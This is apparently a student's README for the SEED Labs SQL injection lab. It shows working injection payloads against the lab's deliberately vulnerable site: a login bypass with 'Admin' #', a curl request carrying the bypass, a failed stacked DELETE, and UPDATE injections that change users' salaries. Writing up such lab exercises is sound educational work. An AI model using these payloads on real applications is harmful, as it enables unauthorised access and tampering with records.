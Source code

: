 # SQL-INJECTION
<table>
  <thead>
    <tr>
      <th>Title</th>
      <th>Author</th>
      <th>Date</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Seed Lab Ubunto 16.04 SQL Injection Attack</td>
      <td>Xinyi Li</td>
      <td>29-10-2021</td>
    </tr>
  </tbody>
</table>
<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "***" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='***'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=30000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<code>', Salary=1 where name='Boby' #</code>
